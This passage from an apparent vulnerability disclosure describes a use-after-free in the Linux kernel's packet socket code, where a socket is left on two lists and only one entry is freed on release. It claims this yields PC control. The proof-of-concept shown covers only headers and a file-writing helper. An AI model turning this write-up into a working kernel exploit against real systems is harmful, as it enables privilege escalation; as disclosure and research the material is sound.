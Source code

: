 ```c
	if (!unlisted && (!dev || (dev->flags & IFF_UP))) {
			register_prot_hook(sk);
	...
}
```
which will add it into a new list. When releasing the socket in packet_release, we will release the one from the last linked list but forget that we have another one in the first original list from packet_create(), thus causing a UAF.
We can get PC control by following the same logic as in the previously mentioned SSD article.

**PoC**<br>
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <sys/syscall.h>
#include <unistd.h>
#include <errno.h>
#include <signal.h>
#include <stdarg.h>
#include <stdint.h>
#include <sys/prctl.h>
#include <sys/resource.h>
#include <sys/time.h>
#include <sys/wait.h>
#include <string.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <linux/if_ether.h>
#include <net/ethernet.h>
#include <net/if.h>
#include <linux/sockios.h>
#include <sys/ioctl.h>
#include <sched.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdbool.h>
#include <linux/if_packet.h>
#include <pthread.h>
#include <ctype.h>
#include <sys/mman.h>
#include <sys/ipc.h>
#include <sys/msg.h>
bool write_file(const char* file, const char* what, ...)
{
	char buf[1024];
	va_list args;
	va_start(args, what);
	vsnprintf(buf, sizeof(buf), what, args);
	va_end(args);
	buf[sizeof(buf) - 1] = 0;
	int len = strlen(buf);
	int fd = open(file, O_WRONLY | O_CLOEXEC);
	if (fd == -1)
		return false;
	if (write(fd, buf, len) != len) {
		close(fd);
		return false;
	}
	close(fd);
	return true;
}
```